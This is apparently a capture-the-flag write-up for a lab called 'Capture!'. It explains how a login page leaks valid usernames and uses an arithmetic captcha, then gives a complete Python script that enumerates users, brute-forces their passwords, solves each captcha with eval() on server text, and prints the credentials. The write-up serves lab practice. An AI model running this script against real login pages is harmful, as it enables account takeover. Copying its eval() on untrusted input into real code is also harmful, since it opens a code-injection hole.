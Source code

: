 # Capture!

### Capture!
I am provided with a list of username and passwords. The problem is that I cannot bruteforce the login with those credentials.<br />
![image](https://github.com/user-attachments/assets/ec6592e9-74ad-4f20-a414-35fe37108709)<br />
Furthermore: <br />
![image](https://github.com/user-attachments/assets/9702c89b-13b3-41f0-9ea1-34e7e9b93995)<br />
The username "bruce" is on the list, but it's actually not a valid user. I want to know what are valid users from the list. But there's a problem:<br />
![image](https://github.com/user-attachments/assets/b4b0a6c0-cb4c-4a4f-bf0d-0b0ae92467ee)<br />
I cannot just use hydra because I first have to solve this captcha that changes at every request. But this can be automated with a python script. This script needs to perform the bruteforce attack, but every time it also needs to read the numbers, evaulate the espression and send the result along with the bruteforced credentials.<br />
The following python code automates all of this process to find the correct credentials, log in and get the flag:<br />

import requests, re

    #FILL THIS VARIABLE
    ip = ""
    url = f"http://{ip}/login"
    
    with open("usernames.txt", "rt") as fd:
            usernames = fd.read().splitlines()
    
    with open("passwords.txt", "rt") as fd:
            passwords = fd.read().splitlines()
    
    regex = re.compile(r"(\d+\s[+*/-]\s\d+)\s\=\s\?")
    
    def send_post(username, password, captcha=None):
            data = {
                    "username":username,
                    "password":password,
            }
            if captcha:
                    data.update({"captcha":captcha})
            response = requests.post(url=url, data=data)
            return response
    
    def solve_captcha(response):
        captcha = re.findall(regex, response.text)[0]
        return eval(captcha)
    
    for count in range(100):
            response = send_post("darthvader", "lukesfather")
            try:
                    captcha = solve_captcha(response)
                    print(f"Captcha synchronised! Next solution is: {captcha}")
                    break
            except:
                    pass
    
    for username in usernames:
                    response = send_post(username, "None", captcha)
                    captcha = solve_captcha(response)
                    if not "does not exist" in response.text:
                            for password in passwords:
                                    response = send_post(username, password, captcha)
                                    if not "Error" in response.text:
                                            print(f"Success! Username:{username} Password:{password}")
                                            exit(0)
                                    else:
                                            captcha = solve_captcha(response)

